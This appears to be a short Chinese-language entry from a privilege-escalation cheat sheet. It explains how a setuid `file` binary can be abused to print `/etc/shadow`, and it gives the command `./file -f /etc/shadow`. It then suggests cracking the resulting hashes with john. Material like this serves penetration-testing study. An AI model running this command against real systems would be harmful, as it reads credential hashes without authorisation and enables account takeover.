 # file

`file` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./file -f /etc/shadow
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/file-1.png)

然后使用`john` 对 hash 进行破解.
